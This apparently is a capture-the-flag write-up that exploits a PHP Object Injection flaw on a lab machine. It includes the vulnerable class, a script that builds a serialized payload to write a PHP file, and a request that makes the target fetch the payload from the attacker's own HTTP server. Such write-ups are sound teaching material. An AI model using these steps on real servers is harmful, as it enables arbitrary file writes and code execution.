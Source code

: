 We identify a major **PHP Object Injection** vulnerability due to this line : 

```php
unserialize(file_get_contents($file_name));
```

- The script **retrieves** the content of a file (given in the `file` parameter).
- Then, it **unserializes** its content, which can be extremely dangerous if we control the file.

This means we can craft a **malicious serialized PHP object** that will be interpreted by `unserialize()`.  
In this case, we see that there is a **`file` class** in the code :

```php
class file {
    public $file = "dump.txt";
    public $data = "dump test";

    function __destruct(){
        file_put_contents($this->file, $this->data);
    }
}
```

This class has a **destructor** (`__destruct()`), which automatically writes **`$data` into `$file`** when the object is destroyed.  
This means that if we **control the serialized object**, we can **create a file with arbitrary content on the server**.

So let's try to exploit this vulnerability with the following code : 

```php
<?php 
class file{
	public $file = "test.php";
	public $data = "<?php echo 'Is it vulnerable ?' ?>";
}
print(serialize(new file));
?>
```

Then let's execute the code :

![Image](https://github.com/user-attachments/assets/695fe43c-a0e7-4f2e-8df9-31b794cf2953)

And we obtain a new serialized object for the exploit. Now, let's test if it works.

To do this, we first need to make a request to retrieve the contents of the `output.txt` file on our local machine. We can use a simple Python HTTP server to serve the serialized payload :

```bash 
python3 -m http.server 4321
```

Then, we make a request from the target server to fetch our malicious object :

```bash
http://stux.thm/4731502[...]855055/?file=http://YOUR_IP:4321/output.txt
```
